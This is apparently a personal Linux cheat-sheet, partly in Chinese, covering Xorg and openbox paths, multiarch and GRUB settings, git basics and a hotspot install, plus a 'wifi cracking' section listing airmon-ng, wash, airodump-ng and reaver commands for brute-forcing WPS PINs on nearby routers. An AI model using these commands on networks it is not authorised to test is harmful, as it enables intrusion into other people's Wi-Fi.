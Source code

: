 
------------------------------------------------------------------------
####base-files
X-server		    xorg		/etc/X11/xorg.conf  
X-client  
window manager		openbox 	~/.config/openbox/  

####架构
dpkg --add-architecture i386  
dpkg --remove-architecture i386  
api libgl1-fglrx-glx:i386  

####tty 分辨率修改
vim /etc/default/grub  
GRUB_GFXPAYLOAD_LINUX=1920x1080  
update-grub  
api amd64-microcode  

####git 
    blob  版本文件
    tree  目录信息
    commit 更新描述
    tag    标签
    
    working directory       staging area        git directory
    ssh-keygen -t rsa -C "dsxyr0@163.com"
    ssh -T git@github.com
    
    git init
    git add xxx
    git commit -m "xxx"
    git config --global user.name "dsxyr"
    git config --global user.email "dsxyr0@163.com"
    git remote add symy https://github.com/dsxyr/symy.git
    git push -u symy master

####wifi破解
    ifconfig –a              //确认你用哪一个网卡WLAN0或WLAN1
    airmon-ng start wlan0     //开启监听模式
    wash –i mon0 –C         //查看开启wps的无线路由器
    airodump-ng mon0          //查看周边AP信息（抓包）
    reaver –i mon0 –b MAC –a –S –vv –d 3 –t 3  //开始穷举PIN码
    reaver –i mon0 –b MAC –a –S –vv –d 0        //加快速度为1秒
    reaver –i mon0 –b MAC –a –S –vv –p xxxx     //从前4位PIN码开始
    reave的进度表文件保存在:
        1.3版：/etc/reaver/MAC地址.wpc
        1.4版：/usr/local/etc/reaver/MAC地址.wpc



sudo add-apt-repository ppa:nilarimogard/webupd8
sudo apt-get update
sudo apt-get install ap-hotspot

